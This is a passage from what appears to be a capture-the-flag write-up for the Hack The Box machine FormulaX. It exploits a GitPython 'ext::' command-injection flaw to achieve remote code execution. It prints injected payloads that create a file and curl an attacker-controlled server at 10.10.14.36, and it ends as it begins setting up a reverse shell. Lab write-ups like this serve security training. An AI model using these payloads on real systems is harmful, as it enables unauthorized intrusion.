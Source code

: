 From [here](https://github.com/gitpython-developers/GitPython/issues/1515), we found a usable payload.

Let's try running the payload:

`ext::sh -c touch% /tmp/pwned`

However, it shows an error:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-23.png)

Is this the issue with the payload or are we just not seeing the result?

Let's see if we can run commands towards our Python server:

`ext::sh -c curl% http://10.10.14.36:1337/testing`

It shows the same error when executed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-24.png)

However, our Python web server receives incoming connection from the web app, meaning it is vulnerable to RCE:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-25.png)

### Reverse Shell

Let's create **shell.sh** that will spawn reverse shell connection back to netcat listener:
